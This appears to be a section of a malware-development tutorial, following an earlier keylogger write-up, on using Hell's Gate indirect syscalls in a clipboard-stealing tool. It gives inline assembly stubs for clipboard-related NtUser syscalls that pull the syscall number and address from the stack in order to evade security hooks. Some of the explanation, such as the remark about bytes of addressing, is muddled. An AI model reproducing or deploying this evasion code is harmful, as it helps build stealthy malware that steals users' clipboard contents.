 ## Let's move to Hell's gate - Indirect syscalls
If you read the doc about the keylogger, this part wouldn't be a big deal. However, in our case, we have to make a slight change. We also want to put the syscall number and the address of the syscall in the native library on the stak. Therefore, if we make a remind about the [x64 calling convention](https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170), we can read that "The fifth and higher arguments are passed on the stack." The fourth one are in the registers `rcx`, `rdx`, `r8` and `r9`. 
```
1 RCX 0X0
2 RDX 0X8
3 R8 0X10
4 R9 0X18
5 stack (rsp) + 0x28
```
Then, from the native function `NtUserCreateLocalMemHandle` since the registers are already used, we need to retrieve the value on the stack to load into eax and jump to the syscall address. The fifth argument is at sp + 0x28. Sixth at sp + 0x30. 

This makes sense because of 64-bit architecture: 1 byte of addressing represents 1 byte of instructions.
0x30 - 0x28 = 8. 8 bytes --> 8 bytes * 8bits = 64 bits (x64 arch)
```c
__asm__("\n\
.global myNtUserOpenClipboard \n\
.global myNtUserGetClipboardData \n\
.global myNtUserCreateLocalMemHandle \n\
.global myNtUserCloseClipboard \n\
");

...

__asm__("myNtUserCreateLocalMemHandle: \n\
mov r10, rcx \n\
mov eax, [rsp + 0x28] \n\
jmp [rsp + 0x30] \n\
ret \n\
");
```

r8d and not r8 because of DWORD https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture for other functions

**References**
God thanks [this paper](https://www.researchgate.net/publication/251702413_Extracting_the_windows_clipboard_from_physical_memory/fulltext/03ac52b40cf22d2e66d8d013/Extracting-the-windows-clipboard-from-physical-memory.pdf) to understand different cases of GetClipboardData.
